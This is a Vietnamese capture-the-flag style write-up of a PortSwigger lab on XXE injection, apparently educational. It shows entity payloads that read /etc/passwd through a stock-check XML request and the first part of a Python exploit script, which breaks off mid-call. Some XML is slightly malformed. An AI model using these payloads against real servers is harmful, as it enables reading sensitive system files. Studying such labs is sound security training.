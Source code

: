 ## 1. Lab: Exploiting XXE using external entities to retrieve files

link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

### Đề bài

 [image](https://hackmd.io/_uploads/B1bGB4x2a.png)

### Phân tích

- Trang web chứa chức năng Check stock, trong đó quá trình phân tích dữ liệu XML không chứa cơ chế ngăn chặn lỗ hổng XXE injection có thể dẫn đến trả về các dữ liệu không mong muốn trong response. Để hoàn thành bài lab, chúng ta cần khai thác lỗ hổng XXE injection từ đó truy xuất nội dung file /etc/passwd.
- mình sử dụng chức năng Check stock và quan sát request trong Burp Suite:

 [image](https://hackmd.io/_uploads/S138L4xha.png)

 [image](https://hackmd.io/_uploads/H1S_IEx26.png)

Trang web sử dụng ngôn ngữ XML gửi yêu cầu check stock với các thẻ `<productId>` và `<storeId>`. Hệ thống thực hiện phân tích dữ liệu XML và trả về kết quả số lượng sản phẩm còn lại trong response.

- Chúng ta có thể tự định nghĩa một entity với giá trị bất kỳ: mình dùng payload

```xml 
< DOCTYPE cuong [< ENTITY xxe "/etc/passwd">]>
```

 [image](https://hackmd.io/_uploads/HkbuDEx3a.png)

server không có cơ chế validate XML này. Do đó, mình có thể định nghĩa một external entity &xxe; mà giá trị của nó là nội dung file /etc/passwd và sử dụng entity `&xxe;` tại trường productId.

### Khai thác

- khi biết XML parser xử lý và cho phép mình định nghĩa 1 internal entity trong DTD vậy mình thử nó với external entity

```xml 
< DOCTYPE cuong [ < ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

 [image](https://hackmd.io/_uploads/HkSvo4l36.png)

- và mình đã đọc được file /etc/passwd thông qua entity `&xxe;`

mình đã viết lại script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a2300090407a56c838246ca009900ac.web-security-academy.net'

session=requests.Session()

data = '<?xml version="1.0" encoding="UTF-8"?>< DOCTYPE cuong [ < ENTITY xxe SYSTEM  "file:///etc/passwd"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId></stockCheck>'

response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
```
